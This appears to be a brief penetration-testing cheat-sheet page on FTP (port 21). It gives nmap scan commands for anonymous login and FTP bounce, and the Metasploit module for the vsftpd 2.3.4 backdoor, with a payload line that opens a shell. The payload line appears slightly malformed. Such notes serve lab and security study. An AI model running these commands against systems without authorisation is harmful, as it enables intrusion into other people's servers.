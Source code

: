 ```yaml
---
description: TCP/21
---
```


# FTP

### nmap scripts

```bash
#check for anonymous
nmap -v -p 21 --script=ftp-anon.nse $ip-254

nmap -sT -p 21 -v -n -Pn --script ftp-bounce $ip

```

### VSFTPD

version 2.3.4 is vulnerable

```bash
msf> exploit/unix/ftp/vsftp_234_backdoor
set payload cmd/unix/interact exploit
```


